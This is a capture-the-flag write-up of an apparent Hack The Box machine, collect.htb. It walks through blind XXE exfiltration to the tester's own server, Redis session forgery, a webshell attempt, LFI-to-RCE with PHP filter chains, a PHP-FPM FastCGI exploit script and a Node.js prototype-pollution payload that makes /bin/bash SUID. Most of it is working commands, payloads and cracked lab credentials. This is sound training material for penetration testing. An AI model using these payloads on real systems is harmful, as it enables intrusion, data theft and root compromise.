






Exploitation Summary
The exploitation chain begins with the discovery of the main domain collect.htb and its virtual hosts forum.collect.htb and developers.collect.htb. Through forum enumeration, I obtained a proxy_history.txt file revealing an API endpoint for setting admin roles along with authentication tokens. Using this token, I gained access to an admin panel. Further analysis of the forum led to discovering Blind XXE vulnerability in the registration functionality, which allowed me to perform path traversal and extract sensitive configuration files. Among these files, I found Apache credentials for the developers subdomain and Redis authentication credentials. Cracking the Apache htpasswd hash gave me HTTP Basic Auth access to the developers panel. From the extracted configuration files, I discovered that PHP sessions were stored in Redis, allowing me to forge an authenticated session by manipulating the Redis data directly. This granted me access to the developers panel, which contained an LFI vulnerability restricted to PHP files. Using PHP filter chains, I achieved RCE through the LFI and obtained a shell as www-data. Privilege escalation to user victor was accomplished by exploiting PHP-FPM on port 9000 through FastCGI protocol, injecting PHP code to gain a reverse shell. Finally, I escalated to root by exploiting a prototype pollution vulnerability in a Node.js pollution API that was running as root. By polluting the exec function's prototype with malicious shell options, I achieved arbitrary command execution as root and set the SUID bit on /bin/bash to obtain a privileged shell.
Key Techniques: Blind XXE Path Traversal, Redis Session Forgery, LFI to RCE via PHP Filter Chains, PHP-FPM FastCGI Exploitation, Prototype Pollution RCE in Node.js
Initial Reconnaissance
Starting with an Nmap scan, I discover several open ports including HTTP and Redis:

The scan reveals port 6379 running Redis, which is particularly interesting as it's typically not exposed externally.
I add the discovered virtual host collect.htb to my /etc/hosts file and begin web enumeration.
Web Enumeration
Running whatweb against the target:
whatweb http://collect.htbReturns interesting information including an email info@collect.htb and Apache 2.4.54 on Debian.
I notice something peculiar: when clicking on fragment identifier links like http://collect.htb/home#about, the URL transforms to http://collect.htb/home#[object%20Object], suggesting potential JavaScript processing issues.
Directory enumeration with gobuster reveals:
/register (Status: 200) [Size: 4746]
/login (Status: 200) [Size: 4740]
/assets (Status: 301) [Size: 311]When attempting to register or login with special characters like apostrophes, I receive an alert:
alert('User with invalid characters')Redis Initial Testing
Attempting to connect to Redis without credentials fails:
redis-cli -h collect.htb -p 6379
collect.htb:6379> scan 0
(error) NOAUTH Authentication required.
collect.htb:6379> INFO
NOAUTH Authentication required.Virtual Host Discovery
Performing vhost enumeration with gobuster, I discover two additional virtual hosts:
developers.collect.htb Status: 401 [Size: 469]
forum.collect.htb Status: 200 [Size: 14098]I add both to /etc/hosts.
Accessing developers.collect.htb presents an HTTP Basic Authentication prompt with no known credentials.
Forum Exploration
The forum at forum.collect.htb runs on MyBB (https://mybb.com/). Browsing to http://forum.collect.htb/memberlist.php, I find several users: lyon, john, sysadmin, jeorge, karldev, jane, victor, and administrator_forum.
Several posts mention a "Pollution API", suggesting that developers.collect.htb might be hosting this API.

One particularly interesting post discusses issues with the API and includes an attachment: proxy_history.txt. To download it, I need to register an account on the forum.
Proxy History Analysis
After registering and downloading the proxy history file, I discover several API requests. One particularly interesting request stands out:
<url><![CDATA[http://collect.htb/set/role/admin]]></url>
<host ip="192.168.1.6">collect.htb</host>
<port>80</port>
<protocol>http</protocol>
<method><![CDATA[POST]]></method>The request is base64 encoded. After decoding:
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
token=ddac62a28254561001277727cb397bafThe session cookie is expired, but replacing it with my own and reproducing the request using Burp Suite successfully redirects me to http://collect.htb/admin.
Admin Panel Access
The admin panel provides a registration interface:

Registering a user triggers a simple confirmation alert, but the credentials don't work for developers.collect.htb.
XXE Discovery
Inspecting the JavaScript code reveals that the registration sends an entire XML structure:
function XMLFunction(){
var xml = '' +
'<?xml version="1.0" encoding="UTF-8"?>' +
'<root>' +
'<method>POST</method>' +
'<uri>/auth/register</uri>' +
'<user>' +
'<username>' + $('#username').val() + '</username>' +
'<password>' + $('#password').val() + '</password>' +
'</user>' +
'</root>';
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
if(xmlhttp.readyState == 4){
const response = JSON.parse(xmlhttp.responseText);
if(response.Status == "Ok")
{
alert("User registered successfully!");
}else{
alert("User registrar failed.\nCheck if this user already exists in the database.");
}
document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
}
}
xmlhttp.open("POST","/api",true);
xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xmlhttp.send('manage_api='+xml);
};This is highly suspicious as it directly processes XML, potentially vulnerable to XXE injection.
Testing confirms the XML is being processed - attempting to register the same user twice yields a different alert message:

Blind XXE Exploitation
Intercepting the request with Burp Suite, I see the POST to /api:
manage_api=<?xml version="1.0" encoding="UTF-8"?><root><method>POST</method><uri>/auth/register</uri><user><username>asd</username><password>asd</password></user></root>Since the response only indicates success or failure, I'll attempt a Blind XXE attack using an out-of-band technique from PayloadsAllTheThings.
Testing with this request:
manage_api=<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.172/evil.dtd"> %xxe;]>And my evil.dtd file:
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'http://10.10.14.172/?x=%file;'>">
%eval;I receive a hit on my HTTP server, but the server returns an error and no data is exfiltrated.
After testing various payloads, I discover two issues: file size limitations and formatting problems. Using /etc/hostname instead of /etc/passwd and base64 encoding resolves both:
manage_api=<?xml version="1.0" encoding="utf-8"?><!DOCTYPE data SYSTEM "http://10.10.14.172/evil.dtd"><data>&send;</data><!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'http://10.10.14.172/?xd=%file;'>">
%eval;
%exfil;This successfully exfiltrates the data:
10.129.228.126 - - "GET /evil.dtd HTTP/1.1" 200 -
10.129.228.126 - - "GET /?cG9sbHV0aW9uCg== HTTP/1.1" 200 -
echo "cG9sbHV0aW9uCg==" | base64 -d
pollutionTo streamline the process, I create a Python server on port 5000 that automatically decodes base64 responses.
File Enumeration via XXE
Knowing Apache is being used as a reverse proxy, I test common configuration file locations and successfully retrieve:
/etc/apache2/sites-available/000-default.conf/etc/apache2/sites-enabled/collect.htb.conf/etc/apache2/sites-enabled/forum.collect.htb.conf/etc/apache2/sites-enabled/developers.collect.htb.conf
These reveal the application directories:
/var/www/collect/public/var/www/forum//var/www/developers/
The developers configuration contains:
<Directory "/var/www/developers">
AuthType Basic
AuthName "Restricted Content"
AuthUserFile /var/www/developers/.htpasswd
Require valid-user
</Directory>Extracting /var/www/developers/.htpasswd:
developers_group:$apr1$MzKA5yXY$DwEz.jxW9USWo8.goD7jY1Hash Cracking
Hashcat identifies this as Apache MD5 (mode 1600):
hashcat -m 1600 hash.txt rockyou.txtSuccessfully cracks to: developers_group:r0cket
Redis Session Forgery
I can now access developers.collect.htb, but it presents a login panel without known credentials.
Examining /var/www/developers/index.php via XXE:
if (!isset($_SESSION['auth']) or $_SESSION['auth'] != True) {
die(header('Location: /login.php'));
}
(...)
<main class="mb-auto mx-24">
<?php include($_GET['page'] . ".php"); ?>
</main>This reveals an LFI vulnerability restricted to PHP files and a session check for $_SESSION['auth'].
From /var/www/collect/config.php:
return [
"db" => [
"host" => "localhost",
"dbname" => "webapp",
"username" => "webapp_user",
"password" => "Str0ngP4ssw0rdB*12@1",
"charset" => "utf8"
],
];And crucially, from /var/www/collect/public/bootstrap.php:
<?php
ini_set('session.save_handler','redis');
ini_set('session.save_path','tcp://127.0.0.1:6379/?auth=COLLECTR3D1SPASS');Now I have Redis credentials! Connecting to Redis:
redis-cli -h collect.htb -p 6379
collect.htb:6379> AUTH COLLECTR3D1SPASS
OKI can see my session cookie with scan 0.
Redis version: 6.0.16
Attempting to write a webshell fails:
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']); ?>"
saveHowever, I can modify session values directly:
collect.htb:6379> SET PHPREDIS_SESSION:p446kh6utl4343khdja77rnril "auth|b:1;"
OKThis sets auth=true as a boolean for my PHP session in developers.collect.htb, bypassing the authentication check.
LFI to RCE via PHP Filter Chains
Now authenticated, I can exploit the LFI that forces .php extensions. While reading PHP files directly isn't useful, I can use PHP filter chains to achieve RCE: https://github.com/synacktiv/php_filter_chain_generator
Generating a webshell payload:
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'Modifying the URL:
http://developers.collect.htb/?cmd=id&page=php://filter/{chain}RCE confirmed:

Using the webshell, I send myself a reverse shell and gain access as www-data.
Privilege Escalation to Victor
In /home and /etc/passwd, I find user victor.
Checking locally open ports with ss -tuln:
3000, 9000, 3306Port 3000 responds with:
curl localhost:3000
{"Status":"Ok","Message":"Read documentation from api in /documentation"}Port 9000 gives a connection reset error, typical of FastCGI.
Checking MySQL with the credentials I found earlier reveals some hashed passwords, but none crack successfully.
Examining running processes with ps -fauxww, I notice PHP-FPM:
root 970 0.0 1.0 265400 40196 ? Ss 05:09 0:00 php-fpm: master process (/etc/php/8.1/fpm/php-fpm.conf)The configuration file contains:
include=/etc/php/8.1/fpm/pool.d/*.confSearching for port references, I find that port 9000 is associated with user victor.
PHP-FPM FastCGI Exploitation
PHP-FPM uses port 9000 for FastCGI. Following the exploitation guide from HackTricks, I find a script for achieving RCE:
#!/bin/bash
PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/public/index.php" # Existing file path
HOST=$1
B64=$(echo "$PAYLOAD"|base64)
for FN in $FILENAMES; do
OUTPUT=$(mktemp)
env -i \
PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT
cat $OUTPUT
doneI modify the script to use /var/www/collect/public/index.php as the existing file and change the command to id:
./exploit.sh 127.0.0.1The output confirms command execution as victor:
<!--uid=1002(victor) gid=1002(victor) groups=1002(victor)-->Since direct bash doesn't work through the server, I use busybox for a reverse shell, successfully gaining access as victor and obtaining the user flag.
I add my SSH public key to authorized_keys for persistence.
Root Privilege Escalation via Prototype Pollution
In victor's home directory, there's a pollution_api folder containing the source code for the application running on port 3000.
In functions/jwt.js:
const jwt = require('jsonwebtoken');
const SECRET = "JWT_COLLECT_124_SECRET_KEY"The process is running as root:
root 1337 0.0 2.0 1680948 81544 ? Sl 05:09 0:01 \_ /usr/bin/node /root/pollution_api/index.jsAnalyzing the code with Snyk VSCode extension reveals several prototype pollution vulnerabilities and code injection issues:

The vulnerable merge function is used in Messages_send.js:
const messages_send = async(req,res)=>{
const token = decodejwt(req.headers['x-access-token'])
if(req.body.text){
const message = {
user_sent: token.user,
title: "Message for admins",
};
_.merge(message, req.body);
exec('/home/victor/pollution_api/log.sh log_message');
(...)To access this endpoint, I need admin privileges. I update my role in the database:
MariaDB [pollution_api]> update users set role = "admin" where id = 1After logging in again to get a new JWT with admin role:
curl localhost:3000/admin/messages/send -X POST -H "x-access-token: {admin_jwt}" -H "Content-Type: application/json" -d '{"text": "asd"}'
{"Status":"Ok"}Exploiting Prototype Pollution
The goal is to exploit prototype pollution to override message.__proto__, which affects all JavaScript objects created with this prototype.
I'll abuse the exec function that follows the merge call. According to the Node.js documentation, exec accepts an options object that can specify which shell to use.
Following the HackTricks guide on Prototype Pollution to RCE, I find a PoC for exec:
const { exec } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec("something")Creating a payload.json file to avoid formatting issues with curl:
{"text": "asd", "__proto__": {"shell": "/proc/self/exe", "argv0": "console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//", "NODE_OPTIONS": "--require /proc/self/cmdline"}}Executing the request:
curl localhost:3000/admin/messages/send -X POST -H "x-access-token: {admin_jwt}" -H "Content-Type: application/json" -d @payload.jsonThe file appears in /tmp:
-rw-r--r-- 1 root root 0 Jan 21 08:57 exec-cmdlineModifying the payload to execute chmod u+s /bin/bash:
{"text": "asd", "__proto__": {"shell": "/proc/self/exe", "argv0": "console.log(require('child_process').execSync('chmod u+s /bin/bash').toString())//", "NODE_OPTIONS": "--require /proc/self/cmdline"}}After executing the curl command, I can now escalate to root:
bash -pRoot access achieved and system flag obtained!